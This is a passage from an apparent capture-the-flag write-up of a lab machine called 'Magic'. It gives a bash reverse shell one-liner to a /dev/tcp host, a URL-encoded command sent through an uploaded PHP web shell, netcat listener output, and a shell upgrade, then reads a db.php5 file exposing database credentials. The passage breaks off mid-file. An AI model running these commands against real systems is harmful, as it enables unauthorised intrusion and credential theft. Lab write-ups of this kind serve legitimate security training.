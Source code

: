 ![RCEuser](/assets/{{ imgDir }}/RCEuser.png)

To get a shell on the host, we can use a reverse shell one-liner such as the one below. Note that the IP address here should be the IP address of the network interface which corresponds to the VPN conneciton.

{% highlight plain linenos %}
bash -c 'bash -i >& /dev/tcp/10.10.14.3/443 0>&1'
{% endhighlight %}

However, we need to be careful with special characters. For example, the ampersand `&` character could cut our command in half since it is used as a delimiter for GET parameters. To ensure that special characters are not being interpreted in any unwanted way, we can URL encode the command using Burp Suite's Decoder tool.

![URLEncode](/assets/{{ imgDir }}/URLEncode.png)

Next, we start a netcat listener on port 443 by executing `nc -lvnp 443` and execute the reverse shell one-liner by visiting [http://10.10.10.185/images/uploads/evilHackerCat.php.png?cmd=%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%33%2f%34%34%33%20%30%3e%26%31%27](http://10.10.10.185/images/uploads/evilHackerCat.php.png?cmd=%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%33%2f%34%34%33%20%30%3e%26%31%27).

{% highlight plain linenos %}
kali@kali:/tmp/x$ @@sudo nc -lvnp 443@@
listening on [any] 443 ...
@@@connect to [10.10.14.3] from (UNKNOWN) [10.10.10.185] 50210@@@
bash: cannot set terminal process group (1144): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/Magic/images/uploads$ @@python3 -c 'import pty; pty.spawn("/bin/bash")'@@
<ds$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/Magic/images/uploads$
{% endhighlight %}

After a couple of milliseconds, we get a shell as the `www-data` user which we can upgrade using Python. The next step is to compromise the `root` user. 

# Privilege Escalation

By enumerating files on the system, it is possible to identify a file named "db.php5". This file contains database credentials, as can be seen below.

{% highlight none linenos %}
www-data@ubuntu:/var/www/Magic/images/uploads$ @@ls -la /var/www/Magic@@
ls -la /var/www/Magic
total 52
drwxr-xr-x 4 www-data www-data 4096 Jul 12  2021 .
drwxr-xr-x 4 root     root     4096 Jul  6  2021 ..
-rwx---r-x 1 www-data www-data  162 Oct 18  2019 .htaccess
drwxrwxr-x 6 www-data www-data 4096 Jul  6  2021 assets
-rw-r--r-- 1 www-data www-data  881 Oct 16  2019 @@@db.php5@@@
drwxr-xr-x 4 www-data www-data 4096 Jul  6  2021 images
-rw-rw-r-- 1 www-data www-data 4528 Oct 22  2019 index.php
-rw-r--r-- 1 www-data www-data 5539 Oct 22  2019 login.php
-rw-r--r-- 1 www-data www-data   72 Oct 18  2019 logout.php
-rw-r--r-- 1 www-data www-data 4520 Oct 22  2019 upload.php
www-data@ubuntu:/var/www/Magic/images/uploads$ @@cat /var/www/Magic/db.php5@@
cat /var/www/Magic/db.php5
<?php
class Database
{
    private static $dbName = '@@@Magic@@@' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = '@@@theseus@@@';